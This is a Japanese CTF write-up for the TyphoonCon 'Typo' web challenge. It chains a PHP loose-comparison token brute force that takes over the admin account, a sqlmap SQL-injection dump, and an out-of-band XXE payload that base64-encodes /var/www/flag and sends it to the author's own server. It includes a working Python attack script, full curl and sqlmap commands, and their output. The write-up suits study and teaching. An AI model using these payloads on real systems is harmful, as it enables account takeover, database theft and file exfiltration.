 # Typo:Web:100pts
I like to count in base 4 and not in base too, this is why this is hard  
Look at my source code, as I am sure you can see my typo  
[https://typhooncon-typo.chals.io/](https://typhooncon-typo.chals.io/)  
Flag format: SSD{...}  
[typo_src.zip](typo_src.zip)  

# Solution
URLとソースが与えられる。  
アクセスするとログインフォームのようだ。  
[site1.png](site/site1.png)  
不正な入力では何も起こらないため、ソースを見る。  
ほとんどのファイルがログイン後にのみ扱えるが、`change.php`や`forgot.php`はログインが不要であった。  
`change.php`では与えた`uid`からDBに保存されているユーザの`token`を取得し、同時に与えた`token`と先頭4文字が一致する場合に、パスワードを与えた`psw`に変更できる。  
つまりトークンを使ったパスワードを忘れたときの更新処理となる(しかしトークンは取得できない)。  
```php
~~~
$uid = mysqli_real_escape_string($mysqli, $_POST['uid']);
$pwd = md5(mysqli_real_escape_string($mysqli, $_POST['psw']));
$sig = mysqli_real_escape_string($mysqli, $_POST['token']);

$sqlGetTokens = "SELECT token from tokens where uid='$uid'";

$result = $mysqli->query($sqlGetTokens);
$data = mysqli_fetch_array($result);
$sigDB = substr($data[0], 0, 4);

if( $sig == $sigDB ){

	$sqlChange = "UPDATE users SET password='$pwd' where id='$uid'";
	$mysqli->query($sqlChange);
	
	$sqlDelete = "DELETE FROM tokens WHERE uid='$uid'";
	$mysqli->query($sqlDelete);
~~~
```
4文字であれば総当たりできそうだと考え、`token`の生成場所を探すと`forgot.php`であった。  
POSTリクエストを受け取るごとに`$unam`と`$time`と`SECRET`より`token`をmd5で生成している。  
```php
~~~
if($_SERVER['REQUEST_METHOD'] == "POST"){
	$uname = mysqli_real_escape_string($mysqli, $_POST['uname']);
	$s = system("date +%s%3N > /tmp/time");
	$time = file_get_contents("/tmp/time");
	$fullToken = md5( $unam . $time . "SECRET" );

	$sqlGetId = "SELECT id FROM users where username='$uname'";
	$result = $mysqli->query($sqlGetId);
	$data = mysqli_fetch_array($result);
	$uid = $data[0];

	$sqlDelete = "DELETE FROM tokens WHERE uid='$uid'";
	$mysqli->query($sqlDelete);

	$sqlInsert = "INSERT INTO tokens values('$uid','$fullToken')";
	$mysqli->query($sqlInsert);
~~~
```
変数名`$unam`がタイポであり常時空なため、リダイレクトの競合状態でファイル`/tmp/time`が空になり`$time`が空になる瞬間を狙おうと考えるが`SECRET`がわからない。  
総当たりも考えられるが65536通りであり、その間にほかのユーザに`token`を再発行されることは間違いない。  
ここで`change.php`の比較が`if( $sig == $sigDB ){`と厳密でないことを思い出す。  
PHPではmd5の厳密でない比較問題がよく知られており、`0eXX`(`X`は数字)のようなものは0と判定される。  
つまり`token`を何度も再発行し、`0eXX`のような形になるタイミングで`0000`などを与えてやると比較を通り抜けパスワードが変更できる(`0000`や`00eX`となるパターンもある)。  
`(1/16)*(1/16)*(10/16)*(10/16)=0.0015`であり、0.15%程度なので十分に可能である。  
`uid`はadminなので1だろうと予測した。  
以下のmd5_attack.pyで`token`ガチャを行う。  
```python
import requests

target = "https://typhooncon-typo.chals.io"
admin_pass = "satoki"

while True:
    try:
        res = requests.post(f"{target}/forgot.php", data={"uname": "admin"})
        print(res.text)
        res = requests.post(f"{target}/change.php", data={"uid": "1", "psw": admin_pass, "token": "0000"})
        print(res.text)
        if "Password Changed." in res.text:
            print("Hacked!!!!")
            print(f"admin password: {admin_pass}")
            res = requests.post(f"{target}/login.php", data={"uname": "admin", "psw": admin_pass, "remember": "on"})
            print(f"cookie: {res.cookies}")
            break
    except:
        pass
```
実行して待つ。  
```bash
$ python md5_attack.py
<script>alert('Token sent to you.');window.location.href='/index.php';</script>
<script>alert('Token is invalid.');window.location.href='/index.php';</script>
<script>alert('Token sent to you.');window.location.href='/index.php';</script>
<script>alert('Token is invalid.');window.location.href='/index.php';</script>
~~~
<script>alert('Token sent to you.');window.location.href='/index.php';</script>
<script>alert('Password Changed.');window.location.href='/index.php';</script>
Hacked!!!!
admin password: satoki
cookie: <RequestsCookieJar[<Cookie PHPSESSID=5odbobfndb0vggtj6qg4ld1ajg for typhooncon-typo.chals.io/>]>
```
パスワードの変更が成功し、ログイン時のcookieが手に入った。  
ログインしてやるとユーザの存在を確認する謎機能が動いていた。  
[site2.png](site/site2.png)  
しかし実行にはUUIDが必要なようだ。  
`read.php`に以下のような記述があるが、`XXXX`ではない。  
```php
~~~
$uuid = $_SERVER['HTTP_UUID'];

if( $uuid != "XXXX" ){
	die("UUID is not valid");
}
~~~
```
UUIDの取得方法を探していると、`data.php`に自明なSQLiがあることがわかる。  
```php
~~~
$uname = $_GET['u'];
$sql = "SELECT email FROM users where username='$uname'";
~~~
```
ひとまずDBをsqlmapでダンプする。  
```bash
$ sqlmap -u "https://typhooncon-typo.chals.io/data.php?u=1" --cookie="PHPSESSID=5odbobfndb0vggtj6qg4ld1ajg" --dbs
~~~
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
[*] typodb
~~~
$ sqlmap -u "https://typhooncon-typo.chals.io/data.php?u=1" --cookie="PHPSESSID=5odbobfndb0vggtj6qg4ld1ajg" -D typodb --tables
~~~
Database: typodb
[3 tables]
+------------+
| secretkeys |
| tokens     |
| users      |
+------------+
~~~
$ sqlmap -u "https://typhooncon-typo.chals.io/data.php?u=1" --cookie="PHPSESSID=5odbobfndb0vggtj6qg4ld1ajg" -D typodb -T secretkeys --dump
~~~
Database: typodb
Table: secretkeys
[1 entry]
+--------------------------------------+
| uuidkey                              |
+--------------------------------------+
| 8d6ed261-f84f-4eda-b2d2-16332bd8c390 |
+--------------------------------------+
~~~
```
UUIDが保存されていた。  
これでユーザの存在を確認する機能が使用できる。  
機能を調査するとxmlを読み込んでいるようだ。  
```php
~~~
$xml = urldecode($_POST['data']);

$dom = new DOMDocument();
try{
	@$dom->loadXML($xml, LIBXML_NOENT | LIBXML_DTDLOAD);
}catch (Exception $e){
	echo '';
}
$userInfo = @simplexml_import_dom($dom);
$output = "User Sucessfully Added.";
~~~
```
XXEを狙うが、ページの応答からデータを読み取ることはできない。  
以下のdtd.xmlを自身のサーバでホスティングし、[XXE OOB with DTD and PHP filter](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#xxe-oob-with-dtd-and-php-filter)を行う。  
```xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/var/www/flag">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://[自鯖IP]/dtd.xml?%data;'>">
```
ファイルが存在しない場合、base64のリクエストが到達しない。  
`/var/www/flag`は推測する。  
以下のようなxmlをパーセントエンコーディングし、XXEを行う。  
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://[自鯖IP]/dtd.xml">
%sp;
%param1;
]>
<r>&exfil;</r>
<user><username>admin</username></user>
```
curlで投げてやる。  
```bash
$ curl -X POST https://typhooncon-typo.chals.io/read.php -H "UUID: 8d6ed261-f84f-4eda-b2d2-16332bd8c390" -H "Cookie: PHPSESSID=5odbobfndb0vggtj6qg4ld1ajg" -d "data=%3C%3Fxml+version%3D%221.0%22+encoding%3D%22UTF-8%22%3F%3E%0D%0A%3C%21DOCTYPE+r+%5B%0D%0A%3C%21ELEMENT+r+ANY+%3E%0D%0A%3C%21ENTITY+%25+sp+SYSTEM+%22http%3A%2F%2F[自鯖IP]%2Fdtd.xml%22%3E%0D%0A%25sp%3B%0D%0A%25param1%3B%0D%0A%5D%3E%0D%0A%3Cr%3E%26exfil%3B%3C%2Fr%3E%0D%0A%3Cuser%3E%3Cusername%3Eadmin%3C%2Fusername%3E%3C%2Fuser%3E"
User is not exists
```
すると以下のリクエストが到達する。  
```bash
$ ls
dtd.xml
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
167.172.241.252 - - [22/Jun/2022 00:00:00] "GET /dtd.xml HTTP/1.0" 200 -
167.172.241.252 - - [22/Jun/2022 00:00:00] "GET /dtd.xml?SSB3aXNoIGZsbGxsYWdnZ2dnIHdhcyBzcGVsbGxsbGxlZCB3aXRoIG11bHRwbGUgZ2dnZyBhbmQgbGxsbGwKU1NEezE5ZTAxNzY5ZjU2MjA3Y2I0NjIwMTczZjlhYTg3ODliYTViOWU3MWF9Cg== HTTP/1.0" 200 -
$ echo "SSB3aXNoIGZsbGxsYWdnZ2dnIHdhcyBzcGVsbGxsbGxlZCB3aXRoIG11bHRwbGUgZ2dnZyBhbmQgbGxsbGwKU1NEezE5ZTAxNzY5ZjU2MjA3Y2I0NjIwMTczZjlhYTg3ODliYTViOWU3MWF9Cg==" | base64 -d
I wish fllllaggggg was spelllllled with multple gggg and lllll
SSD{19e01769f56207cb4620173f9aa8789ba5b9e71a}
```
デコードするとflagが得られた。  

## SSD{19e01769f56207cb4620173f9aa8789ba5b9e71a}
